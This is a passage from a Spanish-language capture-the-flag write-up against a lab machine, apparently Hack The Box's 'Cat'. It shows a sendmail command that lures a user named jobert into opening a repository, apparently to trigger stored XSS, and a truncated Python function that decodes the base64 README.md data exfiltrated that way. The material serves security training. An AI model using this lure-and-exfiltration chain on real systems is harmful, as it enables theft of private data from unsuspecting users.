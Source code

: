 ![paste](./Images1/35.jpeg)

Y le mandaremos el email a jobert para que lo vea 

```bash 

echo -e "Subject: Test Email\n\nHello, check my repo in http://localhost:3000/axel/New" | sendmail jobert@cat.htb
```

![paste](./Images1/36.jpeg)

Bingo tenemos una respuesta codificada del archivo README.md

![paste](./Images1/37.jpeg)

OK una vez tengamos esto procederemos a decodificarlo con este script de Python 
```python

import base64
import urllib.parse

def decode_xss_data(encoded_data):
    step1 = urllib.parse.unquote(encoded_data)  # Deshacer encodeURIComponent
    step2 = base64.b64decode(step1)  # Deshacer btoa
    try:
        # Intentar decodificar como UTF-8
        step2_str = step2.decode('utf-8')
    except UnicodeDecodeError:
        # Si falla, tratarlo como binario
        step2_str = step2.decode('latin-1')
    step3 = urllib.parse.unquote(step2_str)  # Deshacer encodeURIComponent
```